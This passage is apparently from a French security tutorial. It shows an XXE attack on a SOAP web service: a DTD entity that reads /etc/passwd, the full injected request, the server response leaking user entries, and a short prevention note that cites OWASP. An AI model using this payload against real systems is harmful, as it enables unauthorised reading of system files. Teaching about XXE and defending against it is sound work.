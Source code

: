Comme nous soumettons du XML arbitraire au serveur, nous pouvons essayer de définir une entité externe à l'aide d'un DTD (Doctype definition) :
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
Ce DTD définit une entité xxe qui sera substituée au contenu du fichier /etc/passwd à chaque endroit où elle sera mentionnée.

Le fichier /etc/passwd contient pour les systèmes linux toutes les informations relatives aux utilisateurs du système (login, invite de commande, etc.).

Nous pouvons donc changer notre requête SOAP comme ceci :
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:gs="http://spring.io/guides/gs-producing-web-service">
   <soapenv:Header/>
   <soapenv:Body>
      <gs:getCountryRequest>
         <gs:name>&xxe;</gs:name>
      </gs:getCountryRequest>
      <!-- On intègre la variable contenant le contenu du fichier dans le but que le serveur nous affiche le rendu -->
   </soapenv:Body>
</soapenv:Envelope>
Ce qui résultera en la réponse suivante de l'API :
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/">
  <SOAP-ENV:Header/>
  <SOAP-ENV:Body>
    <ns2:getCountryResponse xmlns:ns2="http://example.com">
      <ns2:country>
        <ns2:name>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[...ETC...]
</ns2:name>
      </ns2:country>
    </ns2:getCountryResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
On voit donc ici que le serveur a exécuté le code malveillant que nous avons intégré, nous révélant des informations que nous n’aurions pas dû obtenir normalement.

### Prévention

Lorsqu'une application doit traiter du contenu XML n'étant pas de confiance, il faut désactiver la définition de type de document.

Pour cela, l'OWASP dispose d'une ressource exhaustive :
